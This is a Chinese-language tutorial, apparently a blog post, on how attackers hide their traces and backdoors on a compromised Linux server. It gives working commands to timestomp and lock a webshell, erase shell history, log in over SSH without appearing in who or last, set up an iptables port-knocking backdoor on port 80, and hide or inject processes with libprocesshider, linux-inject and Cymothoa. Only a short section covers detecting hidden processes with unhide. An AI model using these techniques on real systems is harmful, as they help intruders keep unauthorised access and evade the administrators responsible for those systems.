






### 0x00 前言

攻击者在获取服务器权限后，会通过一些技巧来隐藏自己的踪迹和后门文件，本文介绍Linux下的几种隐藏技术。

### 0x01 隐藏文件


Linux 下创建一个隐藏文件：`touch  .test.txt`  

touch 命令可以创建一个文件，文件名前面加一个 点 就代表是隐藏文件,如下图：



一般的Linux下的隐藏目录使用命令`ls -l`是查看不出来的，只能查看到文件及文件夹，查看Linux下的隐藏文件需要用到命令：`ls -al`

这里，我们可以看到在/tmp下，默认存在多个隐藏目录，这些目录是恶意文件常用来藏身的地方。如`/temp/.ICE-unix/、/temp/.Test-unix/、/temp/.X11-unix/、/temp/.XIM-unix/`

### 0x02 隐藏文件时间戳

Unix 下藏后门必须要修改时间，否则很容易被发现，直接利用 touch 就可以了。

比如参考 index.php 的时间，再赋给 webshell.php，结果两个文件的时间就一样了。

利用方法

touch -r index.php webshell.php

或者直接将时间戳修改成某年某月某日。如下 2014 年 01 月 02 日。

touch -t 1401021042.30 webshell.php

### 0x03 隐藏权限

在Linux中，使用chattr命令来防止root和其他管理用户误删除和修改重要文件及目录，此权限用ls -l是查看不出来的，从而达到隐藏权限的目的。

这个技巧常被用在后门，变成了一些难以清除的后门文件，令很多新手朋友感到头疼。

~~~
chattr +i evil.php 锁定文件
lsattr  evil.php   属性查看
chattr -i evil.php 解除锁定
rm -rf 1.evil.php  删除文件
~~~



### 0x04 隐藏历史操作命令

在shell中执行的命令，不希望被记录在命令行历史中，如何在linux中开启无痕操作模式呢？

技巧一：只针对你的工作关闭历史记录

~~~
[space]set +o history
备注：[space] 表示空格。并且由于空格的缘故，该命令本身也不会被记录。
~~~

上面的命令会临时禁用历史功能，这意味着在这命令之后你执行的所有操作都不会记录到历史中，然而这个命令之前的所有东西都会原样记录在历史列表中。

要重新开启历史功能，执行下面的命令：

~~~
[Space]set -o history
它将环境恢复原状，也就是你完成了你的工作，执行上述命令之后的命令都会出现在历史中。
~~~

技巧二：从历史记录中删除指定的命令

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们怎么办？很简单。通过下面的命令来删除：

~~~
history | grep "keyword"
~~~

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
history -d [num]
```



这种技巧是关键记录删除，或者我们可以暴力点，比如前150行是用户的正常操作记录，150以后是攻击者操作记录。我们可以只保留正常的操作，删除攻击痕迹的历史操作记录，这里，我们只保留前150行：

~~~
sed -i '150,$d' .bash_history
~~~

### 0x05 隐藏远程SSH登陆记录

#隐身登录系统，不会被w、who、last等指令检测到。

~~~
ssh -T root@127.0.0.1 /bin/bash -i
~~~

不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash �Ci
```


### 0x06 端口复用

通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？

第一种方式：通过SSLH在同一端口上共享SSH与HTTPS

~~~
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
~~~

第二种方式：利用IPTables进行端口复用

~~~
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
~~~

利用方式：

~~~
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
~~~


 具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

### 0x07 进程隐藏

管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider

利用 LD_PRELOAD 来实现系统函数的劫持，实现如下

~~~
# 下载程序编译
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# 移动文件到/usr/local/lib/目录下
cp libprocesshider.so /usr/local/lib/
# 把它加载到全局动态连接局
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
~~~

测试：运行 evil_script.py，


此时发现在top 与 ps 中都无法找到 evil_script.py， cpu 使用率高,但是却找不到任何占用cpu高的程序。



如何在Linux中发现隐藏的进程，

`unhide` 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。

下载地址：http://www.unhide-forensics.info/

~~~
# 安装
sudo yum install unhide
# 使用
unhide [options] test_list
~~~

使用`unhide proc`发现隐藏进程evil_script.py，如下图所示：



第二种方法：进程注入工具linux-inject

linux-inject是用于将共享对象注入Linux进程的工具

github项目地址： https://github.com/gaffe23/linux-inject.git

~~~
# 下载程序编译
git clone https://github.com/gaffe23/linux-inject.git
cd linux-inject && make
# 测试进程
./sample-target
# 进程注入
./inject -n sample-target sample-library.so
~~~

验证进程注入成功，如下图所示：




Cymothoa是一款隐秘的后门工具。它通过向目标主机活跃的进程注入恶意代码，从而获取和原进程相同的权限。该工具最大的优点就是不创建新的进程，不容易被发现。

下载地址：https://sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/

~~~
# 下载解压
wget https://jaist.dl.sourceforge.net/project/cymothoa/cymothoa-1-beta/cymothoa-1-beta.tar.gz
tar zxvf cymothoa-1-beta.tar.gz 
# 
cd cymothoa-1-beta && make


~~~

### 0x07 结语

本文主要介绍了Linux下的几种隐藏技术，包括隐藏文件、隐藏权限、隐藏历史操作命令、端口复用、进程隐藏等方面的技巧。仅作抛砖引玉之用，欢迎留言分享。


